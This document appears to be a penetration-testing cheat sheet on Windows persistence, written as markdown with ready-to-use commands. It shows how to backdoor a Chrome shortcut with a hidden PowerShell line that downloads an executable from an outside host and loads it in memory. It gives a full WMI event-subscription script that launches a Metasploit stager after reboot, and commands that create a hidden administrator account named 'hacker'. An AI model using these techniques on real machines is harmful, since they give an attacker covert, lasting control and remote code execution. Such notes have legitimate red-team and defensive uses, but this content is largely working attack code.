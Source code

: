 # Persistence

## *LNK* backdoor
Backdoor any commonly used shortcut by changing the default target. For example with *Google Chrome*, change the shortcut from:
```
C:\Program Files\Google\Chrome\Application\chrome.exe
```

To:
```powershell
powershell.exe -nop -w hidden -c "[System.Diagnostics.Process]::Start('C:\Program Files\Google\Chrome\Application\chrome.exe');[System.Reflection.Assembly]::Load((iwr 'http://10.10.10.50/i.exe').Content)
```

***

## *WMI* subscriptions (machine reboot)
> Note: this method requires elevated privileges.

```powershell
# Filter arguments (what event(s) we want to trigger on)
$FilterArgs = @{name='BIT-WMI-Demo1';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};

# Create the filter
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

# Setup a malicious consumer for the event
$ConsumerArgs = @{name='BIT-WMI-Demo1';
                CommandLineTemplate='C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -e <metasploit stager>';}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs
 
# Create the backdoor
$FilterToConsumerArgs = @{
  Filter = [Ref] $Filter;
  Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```
> Note: taken from `https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/`.

***

## Backdoor user
> Note: this method requires elevated privileges.

```
net user /add hacker hackerpassword
net localgroup administrators hacker
```